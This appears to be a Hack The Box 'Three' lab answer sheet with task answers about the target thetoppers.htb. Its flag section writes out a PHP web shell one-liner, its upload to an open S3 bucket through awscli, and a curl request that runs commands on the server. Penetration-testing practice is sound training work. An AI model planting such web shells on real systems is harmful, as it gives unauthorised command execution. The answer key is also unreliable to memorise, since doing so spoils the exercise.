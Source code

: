 # Task 1: How many TCP ports are open?
2

# Task 2: What is the domain of the email address provided in the "Contact" section of the website?
thetoppers.htb

# Task 3: In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
/etc/hosts

# Task 4: Which sub-domain is discovered during further enumeration?
s3.thetoppers.htb

# Task 5: Which service is running on the discovered sub-domain?
Amazon S3

# Task 6: Which command line utility can be used to interact with the service running on the discovered sub-domain?
awscli

# Task 7: Which command is used to set up the AWS CLI installation?
aws configure

# Task 8: What is the command used by the above utility to list all of the S3 buckets?
aws s3 ls

# Task 9: This server is configured to run files written in what web scripting language?
PHP

# Flag: 
resolve hostname, `echo '<?php system($_GET["cmd"]); ?>' > shell.php` create payload, configure aws `aws configure`, upload payload `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`, exploit `curl thetoppers.htb/shell.php?cmd=find%20/%20-type%20f%20-iname%20flag.txt`
